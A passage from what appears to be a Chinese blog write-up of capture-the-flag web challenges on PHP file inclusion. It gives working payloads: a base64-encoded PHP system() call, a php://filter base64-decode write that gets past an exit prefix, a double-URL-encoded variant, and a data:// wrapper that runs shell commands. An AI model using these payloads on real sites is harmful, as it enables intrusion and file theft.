 

<img src="https://i-blog.csdnimg.cn/blog_migrate/f77c13e45473b7207a074f552c1e60b0.png" alt="" style="max-height:163px; box-sizing:content-box;" />


修改文件名 然后写入 读取命令即可

```cobol
POST
content=aa<?php system('tac fl0g.php');?>
 
content=aaPD9waHAgc3lzdGVtKCd0YWMgZmwwZy5waHAnKTs/Pg==
 
GET
 
?file=php://filter/write=convert.base64-decode/resource=5.php
 
 
 
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%34%25%32%65%25%37%30%25%36%38%25%37%30
 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/759e3a1e0399601bb5baca7fce4e6815.png" alt="" style="max-height:223px; box-sizing:content-box;" />


这样就绕过了死亡代码

## web88

可以使用data协议来执行

```cobol
?file=data://text/plain;base64,PD9waHAgICBzeXN0ZW0oIm5sICoucGhwIik7
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/87644477b8e937221512a6cff5ffe21e.png" alt="" style="max-height:200px; box-sizing:content-box;" />